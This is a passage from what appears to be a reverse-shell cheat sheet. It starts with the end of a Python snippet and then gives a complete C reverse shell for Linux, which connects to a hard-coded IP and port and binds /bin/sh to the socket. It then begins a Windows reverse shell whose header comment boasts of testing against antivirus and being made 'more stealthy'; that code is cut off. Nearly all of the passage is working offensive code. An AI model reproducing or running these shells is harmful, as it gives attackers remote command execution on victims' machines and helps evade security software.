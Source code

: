 ```
    p.wait()
except KeyboardInterrupt:
    s.close()
```

## C language

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <netinet/in.h>

int main(void) {
    int sockfd;         
    int lportno = 12345;    
    struct sockaddr_in serv_addr;
    char *const params[] = {"/bin/sh",NULL};
    char *const environ[] = {NULL};

    sockfd = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);
    serv_addr.sin_family = AF_INET;
    serv_addr.sin_addr.s_addr = inet_addr("192.168.57.102");
    serv_addr.sin_port = htons(lportno);  
    connect(sockfd, (struct sockaddr *) &serv_addr, 16);

    dup2(sockfd,0);
    dup2(0,1);
    dup2(0,2);
    execve("/bin/sh",params,environ);
}
```

```
/* Windows Reverse Shell 
Test under windows 7 with AVG Free Edition.
Author: Ma~Far$ (a.k.a. Yahav N. Hoffmann)
Writen 2016 - Modified 2016
This program is open source you can copy and modify, but please keep author credit!
Made a bit more stealthy by infoskirmish.com - 2017
*/

#include <winsock2.h>
#include <stdio.h>

#pragma comment(lib, "w2_32")

WSADATA wsaData;
SOCKET Winsock;
SOCKET Sock;
struct sockaddr_in hax;
char aip_addr[16];
STARTUPINFO ini_processo;
PROCESS_INFORMATION processo_info;
  

int main(int argc, char *argv[]) 
{
	WSAStartup(MAKEWORD(2,2), &wsaData);
	Winsock=WSASocket(AF_INET,SOCK_STREAM,IPPROTO_TCP,NULL,(unsigned int)NULL,(unsigned int)NULL);
    
```